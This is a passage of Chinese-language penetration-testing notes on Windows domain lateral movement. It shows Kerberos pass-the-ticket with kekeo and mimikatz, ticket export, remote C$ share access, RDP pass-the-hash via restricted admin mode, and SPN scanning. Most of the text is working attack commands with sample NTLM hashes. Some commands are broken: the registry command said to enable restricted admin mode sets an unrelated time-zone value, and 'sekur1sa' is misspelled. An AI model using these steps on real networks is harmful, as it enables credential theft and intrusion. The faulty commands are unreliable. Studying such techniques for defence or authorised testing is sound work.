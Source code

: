 1.生成票据

kekeo "tgt::ask /user:mary /domain:god.org /ntlm:518b98ad4178a53695dc997aa02d455c"

2.导入票据

kerberos::ptt TGT_mary@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi

3.查看凭证 klist

4.利用 net use 载入

dir \\192.168.3.21\c$

**第三种利用本地票据(需管理权限)**

sekurlsa::tickets /export

kerberos::ptt xxxxxxxxxx.xxxx.kirbi

总结：ptt 传递不需本地管理员权限，连接时主机名连接，基于漏洞,工具,本地票据

**第四种国产 Ladon 内网杀器测试验收**

https://k8gege.org/Ladon/

https://hub.fastgit.org/k8gege/Ladon/releases

![](https://s4.ax1x.com/2022/01/17/7UnMlR.png)

#### RDP

##### 明文连接。。。

##### hash连接

windows server需要开启restricted admin mode，在windows 8.1和windows server 2012 R2中默认开启，同时如果win7和windows server 2008 R2安装了2871997，2973351补丁也支持；开启命令；

Reg add HKLM\SYSTEM\CurrentControlSet\Control\TimeZoneInformation /v RealTimeIsUniversal /t REG_DWORD /d 00000000 /f

~~~
mstsc.exe /restrictedadmin
mimikatz.exe
privilege::debug
sekur1sa::pth /user:administrator /domain:god/ntlm:ccef208c64xxxxx "/run:mstsc.exe/restrictedadmin"
~~~



#### SPN扫描

~~~
探针
setspn -q */*
setspn -q */* | findstr "MYSQL"
~~~



![](https://s4.ax1x.com/2022/01/17/7UnlOx.png)

